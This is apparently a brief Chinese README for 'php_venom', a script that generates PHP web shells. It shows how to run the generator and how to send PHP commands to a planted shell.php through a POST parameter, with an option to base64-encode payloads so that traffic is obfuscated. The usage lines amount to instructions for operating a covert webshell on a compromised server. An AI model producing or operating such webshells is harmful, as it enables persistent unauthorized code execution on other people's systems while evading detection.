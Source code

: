 
## 使用方法

 python3 php_venom.py > test.php
 
   即可在同目录生成 test.php
   
 ## 3.x 使用说明：
 
 是否传入id参数决定是否把流量编码
 
 ```
http://www.xxx.com/shell.php  
POST: mr6=phpinfo();  //与普通shell相同

http://www.xxx.com/shell.php?id=xxx(xxxx随便修改)

POST: mr6=cGhwaW5mbygpOwo=  //payload的base64编码
```

 

